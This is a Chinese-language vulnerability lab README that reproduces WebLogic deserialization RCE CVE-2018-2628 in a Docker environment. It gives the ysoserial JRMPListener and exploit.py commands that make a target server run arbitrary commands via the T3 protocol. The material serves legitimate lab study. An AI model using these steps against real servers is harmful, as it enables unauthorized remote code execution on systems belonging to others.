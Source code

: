 # Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

Oracle 2018年4月补丁中，修复了Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
- https://github.com/tdy218/ysoserial-cve-2018-2628

## 漏洞环境

执行如下命令启动Weblogic 10.3.6.0：

```
docker compose up -d
```

等待环境启动（环境差异，有的机器可能等待的时间比较久），访问`http://your-ip:7001/console`，初始化整个环境。

## 漏洞复现

首先下载ysoserial，并启动一个JRMP Server：

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]`即为我想执行的命令，而`[listen port]`是JRMP Server监听的端口。

然后，使用[exploit.py](https://www.exploit-db.com/exploits/44553)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]`和`[victim port]`是目标weblogic的IP和端口，`[path to ysoserial]`是本地ysoserial的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口。`[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`。

exploit.py执行完成后，执行`docker compose exec weblogic bash`进入容器中，可见/tmp/success已成功创建。

![](1.png)
